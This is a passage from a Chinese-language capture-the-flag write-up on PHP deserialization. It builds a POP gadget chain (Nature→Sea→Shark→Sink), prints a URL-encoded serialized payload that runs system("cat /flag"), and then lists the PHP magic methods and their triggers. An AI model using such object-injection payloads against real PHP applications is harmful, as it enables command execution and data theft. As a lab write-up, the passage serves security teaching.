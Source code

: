 ```php
        echo $this->sea->see;
    }
}

$a=new Nature();
$a->sea=new Sea();
$a->sea->animal=new Shark();
$a->sea->animal->setWord(new Sink());

echo urlencode(serialize($a));

//O%3A6%3A%22Nature%22%3A1%3A%7Bs%3A3%3A%22sea%22%3BO%3A3%3A%22Sea%22%3A1%3A%7Bs%3A6%3A%22animal%22%3BO%3A5%3A%22Shark%22%3A1%3A%7Bs%3A11%3A%22%00Shark%00word%22%3BO%3A4%3A%22Sink%22%3A1%3A%7Bs%3A9%3A%22%00Sink%00cmd%22%3Bs%3A20%3A%22system%28%22cat+%2Fflag%22%29%3B%22%3B%7D%7D%7D%7D

```

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1731735946559-10aeb512-e31b-47fc-8158-4690cadd3357.png)

发送请求包得到flag

![](https://cdn.nlark.com/yuque/0/2024/png/49235244/1731735975531-2971e965-067d-4e8f-858c-fe902f498a73.png)

### 关于POP链的构造
参考文章[链接](https://blog.csdn.net/m0_73185293/article/details/131353031?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522B7E564A8-AB7D-4480-9B2C-91AE97CD4A96%2522%252C%2522scm%2522%253A%252220140713.130102334..%2522%257D&request_id=B7E564A8-AB7D-4480-9B2C-91AE97CD4A96&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~top_positive~default-1-131353031-null-null.142^v100^pc_search_result_base7&utm_term=php%E5%8F%8D%E5%BA%8F%E5%88%97%E5%8C%96%E6%BC%8F%E6%B4%9E%E5%8E%9F%E7%90%86&spm=1018.2226.3001.4187)

#### <font style="color:rgb(77, 77, 77);">常见魔术方法的触发</font>
```php
//魔术方法
 
__construct()       //类的构造函数，创建对象时触发
 
__destruct()        //类的析构函数，对象被销毁时触发
 
__call()            //调用对象不可访问、不存在的方法时触发
 
__callStatic()     //在静态上下文中调用不可访问的方法时触发
 
__get()            //调用不可访问、不存在的对象成员属性时触发
 
__set()           //在给不可访问、不存在的对象成员属性赋值时触发
 
__isset()         //当对不可访问属性调用isset()或empty()时触发
 
__unset()         //在不可访问的属性上使用unset()时触发
 
__invoke()        //把对象当初函数调用时触发
 
__sleep()        //执行serialize()时，先会调用这个方法
 
__wakeup()       //执行unserialize()时，先会调用这个方法
 
__toString()     //把对象当成字符串调用时触发
 
__clone()        //使用clone关键字拷贝完一个对象后触发
```
